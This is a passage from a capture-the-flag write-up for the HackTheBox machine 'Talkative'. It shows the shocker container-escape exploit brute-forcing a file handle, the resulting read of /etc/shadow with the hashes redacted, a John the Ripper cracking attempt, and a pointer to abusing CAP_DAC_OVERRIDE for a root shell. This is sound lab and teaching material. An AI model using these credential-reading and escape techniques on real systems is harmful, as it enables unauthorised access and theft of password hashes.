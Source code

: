 ```shell
[*] Found lsb-release
[*] Found rsyslog.conf
[*] Found rc6.d
[*] Found calendar
[*] Found fstab
[*] Found shadow
[+] Match: shadow ino=393228
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

```shell
cat /tmp/shadow
root:$6${Redacted}:19066:0:99999:7:::
[...]
saul:$6${Redacted}:19058:0:99999:7:::
```

**Nice! Let's try to crack `root`'s password hash:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:27:40(HKT)]
└> nano root.hash
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:27:47(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt root.hash                
[...]
```

But no dice...

> Note: You can just get the root flag in here, but I decided to get a root shell.

To get a root shell on the host machine, we can abuse a capability called `CAP_DAC_OVERRIDE`. 

According to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override), **`shocker.c` also has the capability of writing files.** Although it doesn't shown in the previous decoded `CapEff`, the exploit works.
